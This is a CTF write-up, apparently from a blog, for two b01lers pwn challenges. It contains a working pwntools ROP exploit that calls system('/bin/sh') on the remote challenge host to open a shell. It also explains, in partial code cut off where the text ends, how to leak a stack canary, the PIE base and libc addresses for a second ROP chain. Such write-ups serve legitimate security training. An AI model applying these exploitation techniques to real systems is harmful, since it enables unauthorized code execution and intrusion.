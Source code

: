 <h1 id="SeeforYourself">See for Yourself</h1>

### Description:

    The matrix requires a more advanced trick this time. Hack it.
    nc chal.ctf.b01lers.com 1008

### Solution:

I am the second person to solve this challenge, we can create a rop to set the address of "/bin/sh" to `%rdi` and call system from plt 

{% highlight python %}
from pwn import *
r = process("./simplerop-af22071fcb7a6df9175940946a6d45e5")
r = remote("chal.ctf.b01lers.com", 1008)
binsh = 0x402008
sy = 0x000000000401080
pprdi = 0x0000000000401273
ret = 0x000000000040101a
p = "A" * 8 
p += p64(ret)
p += p64(pprdi)
p += p64(binsh)
p += p64(sy)
r.sendline(p)
r.interactive()
{% endhighlight %}

FLAG: flag{ROP_ROOP_OOP_OOPS}

<h1 id="GoodbyeMrAnderson">Goodbye, Mr. Anderson </h1>

### Description:

    Do it again Neo. Cheat death.
    nc chal.ctf.b01lers.com 1009

### Solution:

this is the tricky one, we can overwrite `__libc_start_main` using `leak_stack_canary` function
the binary itself use full protection and use libc version 2.31. which we can't use one_gadget to solve this challenge.
in order to solve this challenge we need to leak canary, base pie and libc address 
since we can only overwrite `__libc_start_main` in order to create a rop we can use `add rsp, 8; ret;` gadget
to get our rop working properly. pardon my crappy code.

{% highlight python %}

#!/usr/bin/env python2

import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("./leaks-c85e4a348b2a07ba8e6484d69956d968")
elf = ELF(TARGET)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def attach(r):
    if LOCAL:
        bkps = ["* main", "* main+229","* main+140"]
        gdb.attach(r, '\n'.join(["b %s"%(x,) for x in bkps]))
    return

def seto(size,val):
